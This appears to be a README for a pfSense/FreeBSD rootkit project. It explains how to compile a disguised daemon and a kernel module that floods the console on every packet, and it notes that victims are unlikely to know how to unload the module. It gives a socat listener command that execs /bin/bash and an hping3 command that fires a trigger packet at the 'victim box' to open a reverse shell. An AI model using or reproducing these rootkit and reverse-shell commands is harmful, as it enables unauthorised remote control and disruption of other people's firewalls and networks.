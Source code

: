 The "unused" directory holds the c code that compiles binaries.

To compile "apeshit" within pfsense you need to use "clang15 -I/sys -o apeshit apeshit_daemon.c" since stdio.h doesn't k know the path of cdefs.h. 

"apeshit_damon.c" produces "apeshit" which is a binary that creates a daemon that sleeps infinitly and is named apeshit, you can see it with "pgrep -l apeshit".

"brickbox.ko" posts an image and funny message everytime a packet comes in or goes out, this can actually be stopped by running <kldunload brickbox.ko> but who da hell is gonna know dat.  It is completely still possible to run commands but the screen prints really fast so it is hard to see shit.  Inside unused is "make_brick_box_face.c" which has comments at the top for the makefile and creates this bin.

We use socat since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.
Run "socat -lv tcp-l:6969,reuseaddr,fork exec:/bin/bash,pty,stderr,setsid,sigint,sane " on the attaking machine before asking for a reverse shell since you need to be listening for it.
To construct a packet that will trigger the packet filtering and send a reverse shell simply run
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
from your host machine targeting the ip of the victim box that has the rootkit, currently any destination port works.
